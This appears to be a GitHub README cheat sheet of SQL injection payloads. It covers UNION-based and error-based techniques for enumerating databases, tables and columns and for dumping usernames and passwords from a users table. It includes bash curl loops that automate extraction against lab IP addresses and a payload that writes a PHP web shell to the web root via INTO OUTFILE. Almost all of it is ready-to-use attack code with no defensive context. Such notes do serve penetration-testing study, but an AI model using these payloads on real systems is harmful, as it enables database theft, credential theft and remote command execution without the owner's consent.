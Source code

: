 # sql-injection
## To find sql-injection first break a query or create an error than join it or comment out the rest.
```text
Syntax break = ' " ') ") / \ ; : 
      Use differnt combination of the syntax
 
Join or comment out the rest
    Oracle      =   --comment
    Microsoft   =   --comment, /*comment*/
    PostgreSQL  =   --comment, /*comment*/
    MySQL       =   #comment, --+comment (note the space after the double dash), /*comment*/
 ```
    
## Union based attack

### First check ***columns*** by null value or order by 

```bash
' order by 1--
' union select null,null,null--
# In Oracle   	
  ' union select null,null from dual--
``` 

### then check which colunms contain strings value
```bash
' union select null,'a',null--
# in Oracle 	
  ' union select 'a',null+from+dual--
```

### To check database name 
```bash
UNION SELECT null,table_schema,null from information_schema.tables

# With the use of concat
  ' UNION SELECT 1,concat(table_schema),3,4,5,6,7,8,9 from information_schema.tables--
  UNION SELECT 1,table_schema|| '~' ||table_name,3,4,5,6,7,8,9 from information_schema.tables
```

### To check table name 
```bash
' UNION SELECT null,table_name,NULL FROM information_schema.tables--
# Oracle
  ' union select null,table_name,null from all_tables--
```

### To check column name 
```bash
' union select column_name,null from information_schema.columns where table_name='odm_user'--
# Oracle 
  ' union select column_name,null from all_tab_columns where table_name='table'-- 
```  

### To see username and password from table user
```bash
'union select password,username from users--
'union select null,password||username from users--
'union select null,password|| '~' ||username from users--
```

### Concat
```bash
Oracle      'foo'||'bar'
Microsoft   'foo'+'bar'
PostgreSQL  'foo'||'bar'
MySQL       'foo' 'bar' [Note the space between the two strings]
            'foo'||'bar'
            'foo'|| '~' ||'bar'
            CONCAT('foo','bar')
```

## Error based 

### To find database()
```
1') and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) #
```
### To find table_name
```
1') and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) #
```

### to Find columns_name
```
1') and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_name='users' limit 2,1))) #
```

### To find column = password from table = users
```
1') and extractvalue(0x0a,concat(0x0a,(select password from users limit 0,1))) #

				AND

1') and extractvalue(0x0a,concat(0x0a,substring((select password from users limit 0,1) from 30))) #
```


## Few tricks for automating sql injection from terminal 

> We can use 'for loop' extracting data from url   

```bash
for i in {1..90}; do curl "http://192.168.5.106/index.php" -d "option=com_fields&view=fields&layout=modal&list[fullordering]=extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema = database() limit $i,1)))" -s | grep -A3 blockquote | grep "#__" ; done


for i in {0..100}; do curl "http://192.168.5.140/?nid=1%20and%20extractvalue(0x0a,concat(0x0a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%20$i,1)))%20#" -s | grep '&#039' | grep Array | awk -F\& '{print $1}' ; done


for i in {0..100}; do curl "http://192.168.5.140/?nid=1%20and%20extractvalue(0x0a,concat(0x0a,(select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%20$i,1)))%20#" -s | grep '&#039' | grep Array | awk -F\& '{print $1}' ; done

```


## To create a reverse shell file 
```bash
' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- 
```






